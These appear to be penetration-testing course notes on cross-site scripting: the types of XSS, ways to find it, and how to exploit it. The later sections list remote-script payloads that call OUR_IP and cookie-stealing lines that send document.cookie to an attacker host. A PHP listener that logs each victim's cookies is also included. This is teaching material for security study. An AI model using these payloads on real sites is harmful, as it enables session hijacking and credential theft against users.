 **Stored XSS**

*Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

**Reflected XSS:**
- Non-Persistent XSS
- Reflected XSS vulnerabilities occur when our input reaches the back-end server and gets returned to us without being filtered or sanitized.
- *Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

**DOM XSS**

- Non-Persistent
- The `Source` is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.
- On the other hand, the `Sink` is the function that writes the user input to a DOM Object on the page. If the `Sink` function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

**Identify**:`<img src="" onerror=alert(window.origin)>`

## XSS Discovery

Almost all Web Application Vulnerability Scanners (like Nessus, Burp Pro, or ZAP) have various capabilities for detecting all three types of XSS vulnerabilities.

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser).

`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`

### Manual

We can find huge lists of XSS payloads online, like the one on PayloadAllTheThings or the one in PayloadBox

### Code Review

The most reliable method of detecting XSS vulnerabilities is manual code review, which should cover both back-end and front-end code. If we understand precisely how our input is being handled all the way until it reaches the web browser, we can write a custom payload that should work with high confidence.

# Loading a Remote Script

<script src="http://OUR_IP/script.js"></script>

```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
```

```
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ sudo php -S 0.0.0.0:80PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload.

## Session Hijacking

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```
<?phpif (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
sudo php -S 0.0.0.0:80
```

